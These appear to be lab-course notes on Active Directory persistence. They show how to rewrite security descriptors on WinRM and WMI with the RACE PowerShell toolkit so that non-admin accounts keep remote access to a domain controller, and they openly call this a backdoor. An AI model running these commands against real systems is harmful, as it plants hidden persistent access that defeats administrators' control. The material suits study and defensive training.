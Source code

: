 It's possible to modify Security Descriptors (security information like
Owner, primary group, DACL and SACL) of multiple remote access
methods (securable objects) to allow access to non-admin users.

Administrative privileges are required for this, however it is a very impactful backdoor mechanism

> [!NOTE] **NOTE**
> Security Descriptor Definition Language Format:
> `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
> 
> ACE for built-in administrators for WMI namespaces:
> `A;CI;CCDCLCSWRPWPRCWD;;;SID`
> 
> We're interested in simply changing the SID to a user we control

### RACE
ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:

```powershell
. .\RACE-master\Race.ps1
```
##### WinRM
On a local machine
```powershell
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

##### WMI
On a local machine
```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemoteWMI -SamAccountName student548 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

Removing permissions
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

Test with `gwmi`
```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```